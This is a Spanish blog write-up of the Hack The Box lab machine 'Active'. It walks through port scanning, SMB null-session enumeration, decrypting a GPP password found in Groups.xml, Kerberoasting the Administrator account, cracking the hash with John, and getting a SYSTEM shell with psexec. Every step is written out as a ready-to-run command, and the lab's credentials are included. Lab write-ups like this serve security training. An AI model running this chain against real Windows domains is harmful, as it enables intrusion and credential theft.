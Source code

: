 ```yaml
---
layout: ../layouts/SavinoteLayout.astro
title: "HTB_Active"
date: 2023-07-10
slug: HTB_Active
heroImage: /assets/machines.jpg
---
```


# Active {-}

## Introduccion {-}

La maquina del dia se llama Active.

El replay del live se puede ver aqui

[![S4vitaar Sauna maquina](https://img.youtube.com/vi/kTyYkrK970w/0.jpg)](https://www.youtube.com/watch?v=kTyYkrK970w)

No olvideis dejar un like al video y un commentario...
## Enumeracion {-}

### Reconocimiento de maquina, puertos abiertos y servicios {-} 

#### Ping {-}

```bash
ping -c 1 10.10.10.100
```
ttl: 127 -> maquina Windows

#### Nmap {-}

```bash
nmap -p- --open -T5 -v -n 10.10.10.100
```

Va lento

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.100 -oG allPorts 
extractPorts allPorts
nmap -sC -sV -p53,88,135,139,289,445,464,593,636,3269,5985,9389,49667,49673,49674,49677,49689,49698 10.10.10.100 -oN targeted
```


| Puerto | Servicio   | Que se nos occure?                       | Que falta?                |
| ------ | ---------- | ---------------------------------------- | ------------------------- |
| 53     | domain     | Domain controller rpcclient null session |                           |
| 88     | Kerberos   | asproasting attack                       | lista de usuarios validos |
| 135    | msrpc      |                                          |                           |
| 139    | netbios    |                                          |                           |
| 389    | LDAP       | Bloodhound                               | credenciales              |
| 445    | smb        | Null session                             |                           |
| 464    | kpasswd5?  |                                          |                           |
| 593    | ncacn_http |                                          |                           |
| 636    | tcpwrapped |                                          |                           |
| 3268   | ldap       |                                          |                           |
| 3269   | tcpwrapped |                                          |                           |
| 5722   | WinRM      | evil-winrm                               | credenciales              |
| 9389   | mc-nmf     | Puertos por defecto de windows           |                           |
| 47001  | msrpc      | Puertos por defecto de windows           |                           |
| 49152  | msrpc      | Puertos por defecto de windows           |                           |
| 49153  | msrpc      | Puertos por defecto de windows           |                           |
| 49154  | msrpc      | Puertos por defecto de windows           |                           |
| 49155  | ncacn_http | Puertos por defecto de windows           |                           |
| 49157  | msrpc      | Puertos por defecto de windows           |                           |
| 49158  | msrpc      | Puertos por defecto de windows           |                           |
| 49169  | msrpc      | Puertos por defecto de windows           |                           |
| 49171  | msrpc      | Puertos por defecto de windows           |                           |
| 49182  | msrpc      | Puertos por defecto de windows           |                           |


### Analyzando el SMB {-}

```bash
crackmapexec smb 10.10.10.100
smbclient -L 10.10.10.100 -N
smbmap -H 10.10.10.100 -u 'null'
```

Vemos que estamos frente de una maquina Windows 6.1 x64 que se llama **DC** en el dominio **active.htb** con un certificado firmado.
Añadimos el dominio al `/etc/hosts`.
Tambien vemos que podemos ver los recursos compartidos a nivel de red con un null session y que el recurso **Replication** esta en **READ ONLY**.
Listamos el directorio con **smbmap**

```bash
smbmap -H 10.10.10.100 -r Replication
smbmap -H 10.10.10.100 -r Replication/active.htb
```

Aqui vemos

- DfsrPrivate
- Policies
- scripts

Esto nos hace pensar a una replica de **SYSVOL**. Aqui buscamos si esta el `groups.xml`

```bash
smbmap -H 10.10.10.100 -r Replication/active.htb/Policies
smbmap -H 10.10.10.100 -r Replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04F894F9}
smbmap -H 10.10.10.100 -r Replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04F894F9}/MACHINE
smbmap -H 10.10.10.100 -r Replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04F894F9}/MACHINE/Preferences
smbmap -H 10.10.10.100 -r Replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04F894F9}/MACHINE/Preferences/Groups/*
```

## Vulnerability Assessment {-}

### Groups.xml {-}

Hemos encontrado el fichero `groups.xml`, lo descargamos

```bash
smbmap -H 10.10.10.100 --download Replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04F894F9}/MACHINE/Preferences/Groups/Groups.xml

mv Replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04F894F9}/MACHINE/Preferences/Groups/Groups.xml Groups.xml
cat Groups.xml
```

Aqui vemos el usuario y la contraseña encryptada.

```bash
gpp-decrypt "edBSHOwhZLTjt/Q59FeIcJ83mjWA98gw9gukOhjOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
```

Ya tenemos la contraseña. Verificamos si las credenciales son validas.

```bash
crackmapexec smb 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18'
```

Es valida pero no tenemos el Pwn3d. Miramos si este usuario tiene acceso a mas registros compartidos a nivel de red.

```bash
smbmap -H 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18'
```

Hay unos cuantos mas. Miramos lo que hay en el registro Users

```bash
smbmap -H 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' -r Users
```

Como solo vemos nuestro usuario y el administrator, y quel puerto 88 esta abierto, intentamos un Kerberoasting attack.

### Kerberoasting attack {-}

```bash
GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18
```

Aqui podemos ver que el usuario Administrator es kerberoasteable.

```bash
GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -request
```

Copiamos el hash y intentamos romperlo con John

### Crack hash with John {-}

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

Ya tenemos la contraseña del usuario Administrator. Lo verificamos con crackmapexec

```bash
crackmapexec smb 10.10.10.100 -u 'Administrator' -p 'Ticketmaster1968'
```

Ademas de ser valido, vemos el famoso **(Pwn3d!)**
## Vuln exploit & Gaining Access {-}

### Conexion con psexec {-}


```bash
psexec.py active.htb/Administrator:Ticketmaster1968@10.10.10.100 cmd.exe
whoami
#Output
nt authority\system
```

Aqui podemos leer las 2 flags.

